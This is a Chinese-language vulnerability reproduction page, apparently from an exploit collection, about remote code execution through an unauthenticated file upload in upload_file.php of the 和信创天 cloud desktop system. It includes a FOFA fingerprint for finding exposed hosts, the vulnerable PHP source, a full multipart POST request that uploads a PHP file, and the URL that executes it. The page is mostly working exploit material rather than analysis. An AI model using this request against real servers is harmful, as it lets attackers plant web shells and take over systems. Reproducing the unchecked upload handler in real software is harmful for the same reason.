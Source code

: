 # 和信创天云桌面系统 upload_file.php 远程命令执行漏洞

## 漏洞描述

和信创天云桌面系统存在默认配置导致文件上传并可以远程命令执行

## 漏洞影响

<a-checkbox checked>和信创天云桌面系统</a-checkbox></br>

## FOFA

<a-checkbox checked>和信下一代云桌面VENGD</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337842.png)



存在漏洞的文件为 **upload_file.php**

```python
<?php
function writeLog($msg){
    $logFile = date('Y-m-d').'.txt';
    $msg = date('Y-m-d H:i:s').' >>> '.$msg."\r\n";
    file_put_contents($logFile,$msg,FILE_APPEND );
}
//require("vesystem/msg_define/session_lib.php");
if ($_FILES["file"]["error"] > 0)
{
  //  echo "Return Code: " . $_FILES["file"]["error"] . "<br />";
}
else
{
    echo "_Requst:<br>";
        /*     foreach($_REQUEST as $name => $value)
            {
                 $name."=".$value."<br>";
            }
            //echo "_FILES:<br>";
            foreach($_FILES as $array_name=>$array_value)
            {    
            $array_name."=".$array_value."<br>";
                foreach($_FILES[$array_name] as $name => $value)
                {
                $name."=".$value."<br>";
                }
            } */
        $l = $_GET['l'];
        
        //拆分字符串按“/”分割字符
        $arrpath = explode("/",$l);
        $m = count($arrpath);
        
        
        $file_e = "";
        if ($m>1){
            for($i=0;$i<$m;$i++){
                $file_e .= $arrpath[$i];
                
                
                if(!file_exists($file_e)){
                    mkdir($file_e, 0777);
                }
                $file_e .= "/";
            }
            
        }else{
            
            //判断文件夹是否存在 ，不存在就新建个
            
            
            if(!file_exists($l)){
                mkdir("$l", 0777);
            }
        }
        
        
        
        $target_path=$_SERVER["DOCUMENT_ROOT"]."/Upload/".$l."/".$_FILES["file"]["name"];
       
       
        if (file_exists($target_path))
        {
            unlink($target_path);
        }
        
        
        $a = 'old_file='.$_FILES["file"]["tmp_name"];
        
        writeLog($a);
        writeLog('new_file='.$target_path);
    $target_path = str_replace ( '//', '/', $target_path );
    
    writeLog('new_file2='.$target_path);
    
   $varerror =  move_uploaded_file($_FILES["file"]["tmp_name"],$target_path);
    
    writeLog('$varerror='.$varerror);
}
?>
```



发送请求包如下

```plain
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```



访问

```plain
http://xxx.xx.xxx.xxx/Upload/1/test.php
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337610.png)